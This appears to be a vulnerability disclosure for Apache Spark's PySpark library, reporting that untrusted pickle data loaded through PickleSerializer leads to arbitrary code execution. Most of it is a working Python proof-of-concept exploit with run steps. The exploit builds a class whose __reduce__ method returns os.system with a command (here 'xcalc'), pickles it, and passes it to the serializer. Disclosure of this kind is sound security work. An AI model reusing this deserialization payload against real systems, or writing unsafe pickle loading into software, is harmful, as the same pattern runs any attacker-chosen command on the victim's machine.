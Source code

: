 # Description
Spark is a unified analytics engine for large-scale data processing. It provides high-level APIs in Scala, Java, Python, and R, and an optimized engine that supports general computation graphs for data analysis. It also supports a rich set of higher-level tools including Spark SQL for SQL and DataFrames, MLlib for machine learning, GraphX for graph processing, and Structured Streaming for stream processing.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install pyspark')
from pyspark import serializers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
dumps = pickle.dumps(ArbitraryCode())
dumps2 = pickle.dumps(ArbitraryCode())
serializers.PickleSerializer.loads(dumps,dumps2)
```
* `pip3 install pyspark`
* `python3 exploit.py`
